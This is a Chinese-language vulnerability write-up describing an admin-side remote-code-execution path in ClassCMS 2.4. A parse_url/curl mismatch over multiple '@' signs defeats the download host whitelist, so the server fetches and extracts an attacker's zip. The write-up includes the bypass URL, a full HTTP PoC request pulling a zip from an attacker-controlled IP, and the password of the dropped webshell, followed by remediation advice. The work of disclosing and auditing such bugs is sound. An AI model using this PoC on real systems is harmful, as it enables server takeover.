






# （ClassCMS 2.4）ZIP解压导致GETSHELL

一、漏洞简介
------------

ClassCMS 2.4 代码审计发现的后台 GETSHELL：后台的“应用下载”功能支持远程文件下载，下载地址白名单仅允许 `classcms.com`、`classcms.uuu.la` 等官方域名，服务端用 PHP 的 `parse_url` 取 host 做校验。攻击者利用 PHP 的 `parse_url` 与旧版 libcurl 对 URL 中多个 `@` 解析不一致的差异，构造 `http://@192.168.159.1:80@classcms.com/lyy.zip` 绕过 host 白名单——`parse_url` 取到 host 为 `classcms.com`（校验通过），而 curl 实际请求的是 `192.168.159.1:80`（攻击者服务器）上的 `lyy.zip`。下载的压缩包以 `.class` 临时文件落地缓存目录，再经 `ZipArchive::extractTo` 解压到 `/class/{classhash}/`，压缩包内的 `lyy.php` 木马随即成为 Web 可访问的 shell。

原文特别说明：较新 curl（curl >= 7.54.0）已修复多个 `@` 的解析问题，具体哪些 PHP/curl 版本组合受影响原文未穷举，本文不扩大版本范围。

二、漏洞影响
------------

-   产品：ClassCMS
-   版本：2.4（原文验证版本；其他版本未确认）
-   组件：后台应用下载 `downloadClass` / `download()`、`ZipArchive::extractTo` 解压逻辑
-   前提条件：需后台管理员权限；攻击者可控的 HTTP 服务器；服务端 curl 版本存在多个 `@` 解析差异（原文环境为 PHP 5.6 / PHP 5.4.45；curl >= 7.54.0 已修复）
-   漏洞编号 / CVSS / 补丁状态：未确认

三、复现过程
------------

### 漏洞发现过程

审计中发现 `class/downloadClass` 存在一处文件下载功能，代码如下（关键校验逻辑）：

```php
$hosts = array_merge(explode(';', C('this:defaultHost')), array(config('host')));
if($defaulthost = config('defaulthost')) {
    $hosts = array_merge($hosts, explode(';', $defaulthost));
}
$checkurl = parse_url($url);
if(!isset($checkurl['host']) || !in_array($checkurl['host'], $hosts)) {
    return false;
}
```

白名单 `$hosts` 为 `{"classcms.com", "classcms.uuu.la", "classcms.com"}`。校验用 `parse_url($url)` 取 host 判断是否在白名单内。作者联想到 curl 对 URL 中多个 `@` 的解析问题：curl < 7.54.0 在解析含有多个 `@` 的 URL 时，实际请求的主机与 `parse_url` 认为的 host 不一致。

本地搭建验证。`parse_url` 实验：



`parse_url` 认为 host 是 `classcms.com`（校验通过），而用 curl 实际请求时：



curl 实际连接的是 `192.168.159.1:80`（`primary_ip` 为 `192.168.159.1`），`content_type` 为 `application/zip`，证明下载的是攻击者服务器上的文件，绕过成功。

用 PHPStorm 断点调试确认 `download()` 中的绕过：



`$url = "http://@192.168.159.1:80@classcms.com/lyy.zip"`，`parse_url` 取到 `host => "classcms.com"` 通过白名单，而 `curl_exec` 返回 `true`，文件实际从攻击者服务器下载落地。

下载后的处理逻辑：下载内容先形成 `.class` 临时文件（如 `cache/shop/89a5f4d7d43547db4d558079c11a612.class`），然后调用解压：



`ZipArchive::extractTo` 将压缩包解压到 `/class/{classhash}/` 目录。zip 包内放置 `lyy.php`（蚁剑一句话木马，连接密码 `lyy`）。

### PoC

登录后台，抓包调用应用下载接口（原文 Burp 截图对应步骤，请求报文如下，`csrf` 为原文复现环境值）：

```http
POST /admin666?do=shop:downloadClass&ajax=1 HTTP/1.1
Host: classcms
Content-Type: application/x-www-form-urlencoded

classhash=test&url=http://@192.168.159.1:80@classcms.com/lyy.zip&csrf=1547308b
```

服务端从 `http://192.168.159.1:80/lyy.zip`（攻击者服务器）下载压缩包，解压到 `/class/test/`。访问 `http://ClassCMS/class/test/lyy.php`：



页面返回 PHP 5.4.45 的 phpinfo，证明木马落地且可解析。用蚁剑连接 `http://classcms/class/test/lyy.php`（连接密码 `lyy`）：



成功 getshell。

四、修复建议
------------

1.  下载地址校验不要只依赖 `parse_url` 的 host 白名单：下载前对 URL 做规范化，对 `@`、userinfo 等成分做严格限制或直接禁止；
2.  实际下载时校验最终连接的 IP/域名仍在白名单内（如 `curl_getinfo` 的 `primary_ip`），或限制仅允许官方域名解析出的 IP；
3.  解压前校验压缩包内容，禁止释放 `.php` 等可执行文件；应用目录禁止 PHP 解析或移出 Web 根目录；
4.  升级 curl 到已修复多个 `@` 解析问题的版本（>= 7.54.0）；
5.  关注厂商是否发布官方补丁（截至成稿未确认补丁状态），及时升级。

### 附录

参考链接：

-   先知社区原文：《ClassCMS 2.4 代码审计》（先知社区，2022 年 8 月 9 日发布；原文链接未保留，以 PDF 镜像为准）
-   PDF 镜像：https://github.com/Wen-Lv/Penetration_Testing_POC/raw/refs/heads/master/books/ClassCMS%202.4%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1.pdf
